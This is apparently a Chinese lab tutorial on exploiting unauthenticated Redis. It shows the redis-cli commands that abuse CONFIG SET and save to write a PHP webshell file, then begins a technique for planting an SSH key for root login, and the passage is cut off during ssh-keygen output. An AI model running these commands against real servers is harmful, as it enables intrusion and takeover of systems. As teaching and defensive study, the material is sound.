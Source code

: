 [TOC]



# Redis未授权访问

Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有添加防火墙规则避免其他非信任来源 ip 访问等，将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，导致任意用户在可以访问目标服务器的情况下未授权访问Redis 以及读取 Redis 的数据。

## 靶机安装redis

2.8版本安装运行

```bash
root@ubuntu:~/Desktop# wget http://download.redis.io/releases/redis-2.8.17.tar.gz
root@ubuntu:~/Desktop# tar xzf redis-2.8.17.tar.gz 
root@ubuntu:~/Desktop# cd redis-2.8.17
root@ubuntu:~/Desktop/redis-2.8.17# make
root@ubuntu:~/Desktop/redis-2.8.17# ./src/redis-server 
```

## 利用redis写webshell

靶机redis连接未授权，在攻击机上能用redis-cli连上，并未登陆验证

```bash
root@kali:~# apt install redis
root@kali:~# redis-cli -h 192.168.211.141
192.168.211.141:6379> keys *
(empty list or set)
```

利用phpinfo，或者错误信息得知web路径，在web目录写入webshell，这里演示写入/tmp目录

```bash
192.168.211.141:6379> CONFIG SET dir /tmp
OK
192.168.211.141:6379> CONFIG SET dbfilename shell.php
OK
192.168.211.141:6379> set webshell "\r\n\r\n<?php echo '<hr/>';?>\r\n\r\n"
OK
192.168.211.141:6379> save
OK
```

## 写入公私钥用私钥登录

当redis以root身份运行，可以给root账户写入SSH公钥文件，直接通过SSH登录目标服务器。

在攻击机中生成ssh公钥和私钥，密码设置为空

```bash
root@kali:~# ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa
Your public key has been saved in /root/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:Leafp/ZAbRLm8gLOjtQfXZj9+mwfqYqWNrgWqZHa2Z0 root@kali
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|                 |
|          o      |
|         + *     |
```